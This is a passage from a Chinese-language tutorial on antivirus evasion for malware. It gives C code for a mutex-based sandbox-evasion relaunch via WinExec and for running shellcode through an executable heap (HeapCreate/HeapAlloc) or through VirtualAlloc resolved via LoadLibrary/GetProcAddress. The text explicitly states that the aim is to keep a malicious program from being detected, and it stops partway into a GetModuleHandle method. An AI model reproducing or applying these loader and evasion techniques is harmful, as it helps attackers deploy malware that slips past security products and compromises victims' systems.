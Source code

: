 **互斥量触发WinExec：**

这个方法非常简单，我们创建一个条件判断互斥量存在与否。



```
HANDLE AmberMutex = CreateMutex(NULL, TRUE, "FakeMutex");
if(GetLastError() != ERROR_ALREADY_EXISTS)`{`
WinExec(argv[0],0);
`}`
```

如果“CreateMutex”函数没有返回已存在，我们将再次执行恶意程序，因为大部分杀软产品不会让正在分析的程序启动新进程和访问沙盒以外的文件。当已经存在的错误出现时，解密函数已经执行了。有很多互斥量的方法在对抗检测方面很有效。

**合适的方法执行shellcode**

从windows vista开始，微软引入了DEP的机制。监控程序正常使用系统内存。如果任何不正常的使用方式将触发DEP，关闭程序并通知你。这意味着我们不能把字节序列放入字符数组中执行，你需要分配一块可读写可执行的内存。

微软有几种内存函数可以实现内存分配，大部分使用“VirtualAlloc”函数，因为你能猜到常用函数的使用将帮助杀软产品的检测，用其他内存函数也能达到效果，但是可能引起更少的注意。

下面是一些内存操作函数的用法。

HeapCreate/HeapAlloc:

Windows允许创建可读写可执行的堆区域。



```
void ExecuteShellcode()`{`
HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(Shellcode), sizeof(Shellcode));
char * BUFFER = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(Shellcode));
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
(*(void(*)())BUFFER)(); 
`}`
```

**LoadLibrary/GetProcAddress：**

这种组合能够调用任何函数，又不直接调用内存分配函数，引起注意较小。



```
void ExecuteShellcode()`{`
HINSTANCE K32 = LoadLibrary(TEXT("kernel32.dll"));
if(K32 != NULL)`{`
MYPROC Allocate = (MYPROC)GetProcAddress(K32, "VirtualAlloc");
char* BUFFER = (char*)Allocate(NULL, sizeof(Shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(BUFFER, Shellcode, sizeof(Shellcode));
(*(void(*)())BUFFER)(); 
`}`
`}`
```

**GetModuleHandle/GetProcAddress:**

这种方法不用Loadibrary，充分利用已经加载的kernel32.dll，GetModuleHandle能够返回已加载的dll的模块句柄，这方法可能是执行shellcode最安静的方式。
